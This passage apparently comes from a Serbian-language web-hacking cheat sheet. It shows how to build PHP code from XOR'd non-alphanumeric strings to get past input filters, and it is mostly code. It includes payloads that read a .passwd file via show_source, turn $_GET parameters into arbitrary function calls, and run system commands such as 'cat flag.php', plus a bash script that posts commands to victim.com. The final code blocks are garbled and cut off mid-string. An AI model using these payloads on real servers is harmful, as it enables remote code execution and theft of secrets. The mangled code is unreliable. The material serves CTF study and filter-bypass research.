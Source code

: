 ```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```

### XOR jednostavan shell kod

Prema [**ovom objašnjenju**](https://mgp25.com/ctf/Web-challenge/), moguće je generisati jednostavan shell kod na sledeći način:

```php
$_="`{{{"^"?<>/"; // $_ = '_GET';
${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);

$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]);
```

Dakle, ako možete **izvršiti proizvoljni PHP bez brojeva i slova** možete poslati zahtev koristeći sledeći payload za izvršavanje proizvoljnog PHP-a:

```
POST: /action.php?_=system&__=cat+flag.php
Content-Type: application/x-www-form-urlencoded

comando=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```

Za detaljnije objašnjenje pogledajte [https://ctf-wiki.org/web/php/php/#preg\_match](https://ctf-wiki.org/web/php/php/#preg\_match)

### XOR Shellcode (unutar eval)

```bash
#!/bin/bash

if [[ -z $1 ]]; then
echo "USAGE: $0 CMD"
exit
fi

CMD=$1
CODE="\$_='\
```

```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```
